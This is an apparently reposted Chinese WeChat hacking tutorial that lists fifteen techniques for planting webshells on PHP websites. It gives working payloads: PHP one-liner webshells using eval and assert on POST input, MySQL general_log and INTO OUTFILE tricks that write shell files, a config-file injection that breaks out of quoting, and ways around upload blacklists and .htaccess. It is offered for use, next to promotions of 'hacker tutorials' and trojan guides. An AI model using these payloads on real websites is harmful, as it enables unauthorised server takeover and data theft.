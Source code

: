 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/3lIINKQMgG9aR57_7Cm_6g)

  

扫码领资料

获黑客教程

免费 & 进群

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFJNibV2baHRo8G34MZhFD1sjTz4LHLiaKG9208VTU6pdTIEpC9jlW6UVfhIb9rHorCvvMsdiaya4T6Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=png)

**1. 利用文件上传漏洞，找文件上传处想办法上传 php 文件。**

一些网站在设置可以允许修改上传的文件类型则直接添加 php

有时候会还有检测是否为 php 文件，可以通过文件名变形，大小写，双写等形式绕过，只要是黑名单的都比较好绕过

很多 cms 还有. hatccess 文件禁止访问或者执行这个目录下的文件的情况

这种情况直接上传一个. hatccess 文件覆盖这个，让其失效。

或者上传不重命名的话上传../../shell.php 传到其他不被限制访问的目录

或者找任意文件删除漏洞把. hatccess 文件删除

**2. 找文件配置的地方写入 php 代码，一般都有过滤的，想办法绕过**

过滤单引号的话可以用注释把上一个的内容注释掉 在下一个参数配置注入代码

效果如下

```
$conf_1 ='xx\';
$conf_2 = ';phpinfo();//'
```

这样就相当于

```
$conf_1 ='xx\';$conf_2 = ';
phpinfo();
```

php 代码就可以执行了，防护比较弱的话直接访问这个配置文件就可以 getshell 了。

防护比较好禁止访问配置文件时，就找包含这个配置文件的文件即可。

**3. 找有没有存在任意文件包含的地方，本地包含的话直接上传 php 代码的图片，远程包含的话就在自己的服务器上设置 php 代码文件** 

**4.sql 注入 getshell 要知道网站的绝对路径**

**方法一：**

利用设置 mysql log 为 php 文件，并设置路径到网站目录下，这样就可以把 sql 中执行的 php 语句插入的 log 中了

如：

```
SETglobal general_log='on';
SETglobalgeneral_log_file='D:/webshell/WWW/shell.php';#如果没有shell.php
```

会自动创建  

```
SELECT'<?php assert($_POST["cmd"]);?>';
```

**方法二：**  

```
select "<?php phpinfo(); ?>" into outfile 'shell路径.php'
```

**5. 远程图片文件下载**  

有时候远程图片下载的时候，可以设置一下下载自己的 php 文件

如 自己服务器上的文件 1.php

```
<?php
echo "<?php phpinfo(); ?>";
?>
```

或者别的方式，让页面有 php 代码，如果不过滤后缀的话直接会下载这个 php 文件

**6.zip 解压 getshell**

这个再系统升级或者插件安装的地方很多都有这个问题。

上传 shell.php 在压缩包中，上传系统升级时会解压缩，那么就可以 getshell

**7. 缓存写入**

有些地方会把缓存写入到一个 php 文件里，想办法让自己的 payload 写入缓存中

**8. 数据库备份 getshell**

有些提供功能可以通过数据库备份进行修改文件后缀。

**9. 编辑模板 getshell**

在网站编辑模板插入一句话

**10. 命令执行拿 webshell**

echo <?php @eval($_POST(a));?> > 路径. php

可以用相对路径也可以用绝对路径

**11. 编辑器漏洞 getshell**

要留意 cms 使用的编辑器版本是否是已知漏洞的版本

**12. 利用文件解析漏洞拿 webshell**

**13. 找可以执行代码的函数，看看参数是否可控**

**14. 找写文件的函数，看看文件后缀和内容是否可控**

**15. 没有进入后台**

0day 拿 webshell

IIS 写权限拿 webshell(put 一个 shell 进去)

命令执行拿 webshell

通过注入漏洞拿 webshell

前台图片上传拿 webshell

Strusts2 拿 webshell

java 反序列拿 shell

```
来源：https://blog.csdn.net/qq1124794084/article/details/89001203
```

学习更多黑客技能！体验靶场实战练习  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFl47EYg6ls051qhdSjLlw0BxJG577ibQVuFIDnM6s3IfO3icwAh4aA9y93tNZ3yPick93sjUs9n7kjg/640?wx_fmt=png)

（黑客视频资料及工具）  

![](https://mmbiz.qpic.cn/mmbiz_gif/CBJYPapLzSEDYDXMUyXOORnntKZKuIu5iaaqlBxRrM5G7GsnS5fY4V7PwsMWuGTaMIlgXxyYzTDWTxIUwndF8vw/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFTib5w98ocX6Sx1YcmgS0tfPOIyEmD8jse5YLoeZzDibM8rNrQibZPsibKXekZaR8FFV3flUT84nU0LQ/640?wx_fmt=png)

往期内容回顾

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFTib5w98ocX6Sx1YcmgS0tfPOIyEmD8jse5YLoeZzDibM8rNrQibZPsibKXekZaR8FFV3flUT84nU0LQ/640?wx_fmt=png)

[渗透某赌博网站杀猪盘的经历！](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247493616&idx=1&sn=0299bced5d71aa60c9cea5b77a3b8fe7&chksm=ebeaaedddc9d27cb805b5e970f5554c47c32a69fdb9ee39acd1642a163e55b17f429e5db06a7&scene=21#wechat_redirect)  

[【教程】利用木马远程控制目标手机](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247502800&idx=1&sn=3c0c6ba8f469a6a08560fb8f61094ed7&chksm=ebea82fddc9d0bebb4a2a85308f44028aa484da945a35de801687532410f896b06ec3bdc1a24&scene=21#wechat_redirect)  

[黑客网站大全！都在这了！速看被删就没了](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247493025&idx=1&sn=97a10a4eca361ad2f66435f89bdcf2a3&chksm=ebeaac8cdc9d259ac26623014a38181b60ba57af9577f4e062e0ed9f33baef84ff60e645a6e6&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_gif/CBJYPapLzSFTib5w98ocX6Sx1YcmgS0tfPyjxT8Q78w0uBADoIltpF1KribvWfHicVlFwShJRIxZls99XR1jaEYow/640?wx_fmt=gif)

点个在看

![](https://mmbiz.qpic.cn/mmbiz_gif/zYdFdnRZ0h95ZAL5c8h6iaMiaqbgljvZ80YraNgwWAtyyZRGT8INEgx8qWKgf9wXribCDNibDvDa2R1EQB4grqAKDg/640?wx_fmt=gif)

方便下次查看